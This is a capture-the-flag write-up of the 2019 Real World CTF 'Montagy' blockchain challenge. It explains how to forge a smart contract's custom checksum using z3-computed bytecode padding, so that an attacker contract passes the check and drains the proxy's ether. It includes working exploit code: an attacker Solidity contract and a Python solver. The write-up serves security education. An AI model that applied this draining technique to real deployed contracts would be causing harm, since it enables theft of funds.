
[Web version](https://x9453.github.io/2020/01/26/Real-World-CTF-Finals-2019-Montagy/)

# Challenge

* Type: Blockchain
* Keywords: Smart contract, Solidity
* [Source files & exploit](https://github.com/x9453/ctf-write-ups/tree/master/real-world-ctf-final-2019/Montagy/)

# Description

> See Montagy.txt in the source files

# Solution

## TL;DR

By the `newPuzzle` method, create a new puzzle that has the same tag value as one of the existing puzzles to pass the `isOfficialChecksum` check. Let our new puzzle call `solve` to the proxy contract, and the proxy contract will send out all the ether it has.

## Detailed Write-up

In this challenge, our goal is to let the balance of the proxy contract become 0, and then we will receive the flag in a transaction sent from the game server.

The code of the proxy contract is:

```javascript
pragma solidity ^0.5.11;

contract Montagy{
    address payable public owner;
    mapping(bytes32=>bool) isOfficialChecksum;
    ...
    
    modifier onlyPuzzle(){
        require(puzzleChecksum[msg.sender] != 0);
        _;
    }
    ...
    
    function registerCode(bytes memory a) public onlyOwner {
        isOfficialChecksum[tag(a)]=true;
    }
    
    function newPuzzle(bytes memory code) public onlyGameOn returns(address addr){
        bytes32 cs = tag(code);
        require(isOfficialChecksum[cs]);
        
        addr = deploy(code);
        lastchildaddr=addr;
        puzzleChecksum[addr] = cs;
    }
    
    function solve(string memory info) public onlyGameOn onlyPuzzle {
        owner.transfer(address(this).balance);
        winnerinfo = info;
    }
    ...
    
    function tag(bytes memory a) pure public returns(bytes32 cs){
        assembly{
            let groupsize := 16
            let head := add(a,groupsize)
            let tail := add(head, mload(a))
            let t1 := 0x21711730
            let t2 := 0x7312f103
            let m1,m2,m3,m4,p1,p2,p3,s,tmp
            for { let i := head } lt(i, tail) { i := add(i, groupsize) } {
                s := 0x6644498b
                tmp := mload(i)
                m1 := and(tmp,0xffffffff)
                m2 := and(shr(0x20,tmp),0xffffffff)
                m3 := and(shr(0x40,tmp),0xffffffff)
                m4 := and(shr(0x60,tmp),0xffffffff)
                for { let j := 0 } lt(j, 0x4) { j := add(j, 1) } {
                    s := and(add(s, 0x68696e74),0xffffffff)
                    p1 := sub(mul(t1, 0x10), m1)
                    p2 := add(t1, s)
                    p3 := add(div(t1,0x20), m2)
                    t2 := and(add(t2, xor(p1,xor(p2,p3))), 0xffffffff)
                    p1 := add(mul(t2, 0x10), m3)
                    p2 := add(t2, s)
                    p3 := sub(div(t2,0x20), m4)
                    t1 := and(add(t1, xor(p1,xor(p2,p3))), 0xffffffff)
                }
            }
            cs := xor(mul(t1,0x100000000),t2)
        }
    }
}
```

The full source code can be found on Ropsten: [Proxy contract](https://ropsten.etherscan.io/address/0xd068fcc44525569fb593189c8f22827cf0f50f3f#code)

By inspecting the transactions to the proxy contract, we may notice that the owner had registered and deployed two puzzles via the `registerCode` and `newPuzzle` methods. Also, their source code can be found on Ropsten: [side contract 1](https://ropsten.etherscan.io/address/0xe45d9f944fe4aa364b7ea958f694fb59af8cdee6#code), [side contract 2](https://ropsten.etherscan.io/address/0x6e6537d0fd1f12ccbcdbb5a9e832885362239aa9#code). However, these two puzzles are not computationally feasible to solve.

How about creating a new puzzle that calls `server.solve()` directly? To make this happen, the new puzzle should be deployed via `newPuzzle` and should pass the `isOfficialChecksum` check at line 20. While only the owner is allowed to register a new checksum (tag value), we have to construct a new puzzle that has the same tag value as one of the existing puzzles.

First, write a contract which simply calls `solve` to the proxy contract:

```javascript
contract P3 {
    Montagy public server;
    constructor() public {
        server = Montagy(0xD068fcC44525569fB593189c8f22827cF0f50f3f);
    }
    function do_solve() public {
        server.solve('balsn');
    }
}
```

Compile this contract and get its deploy bytecode. Note that whatever we pad at the end of the bytecode will not change the deploy result. Therefore, we choose to find proper padding to our bytecode to control its tag value. According to the source code of the proxy contract, to calculate the tag value, the method `tag` iterates from the start of the bytecode to the end. Since we can calculate the tag value of the unpadded bytecode beforehand, we only have to focus on the last iteration, where the padding is the input bytes.

Here is a script for finding proper padding:

```python
from z3 import *

def find(last, target):
    t1, t2 = int(last[:8], 16), int(last[8:], 16)
    tar1, tar2 = int(target[:8], 16), int(target[8:], 16)

    s = 0x6644498b
    s = BitVecVal(s, 256)
    m1 = BitVec('m1', 256)
    m2 = BitVec('m2', 256)
    m3 = BitVec('m3', 256)
    m4 = BitVec('m4', 256)

    for j in range(4):
        s = (s + 0x68696e74) & 0xffffffff
        p1 = (t1<<4) - m1
        p2 = t1 + s
        p3 = (t1>>5) + m2
        t2 = (t2 + (p1^(p2^p3))) & 0xffffffff
        p1 = (t2<<4) + m3
        p2 = t2 + s
        p3 = (t2>>5) - m4
        t1 = (t1 + (p1^(p2^p3))) & 0xffffffff

    sol = Solver()
    sol.add(And(t1 == tar1, t2 == tar2))
    if sol.check():
        m = sol.model()
        m_l = map(lambda x: m[x].as_long(), [m4, m3, m2, m1])
        pad = 0
        for x in m_l:
            pad <<= 0x20
            pad |= x
        return hex(pad)[2:].zfill(32)
    else:
        raise Exception('No solution')
```

Append the padding to our deploy bytecode, and call `newPuzzle` in the proxy contract with the padded bytecode as the parameter. After our contract is deployed, call the `do_solve` method in our contract. All ether that the proxy contract has will be sent out, and then we will get the flag: `rwctf{cOd3_i5_CH3ep_sHoW_mE_tHe_OPcdE...Oh_&&_1_CUP_of_T_PlEA53_:P}`
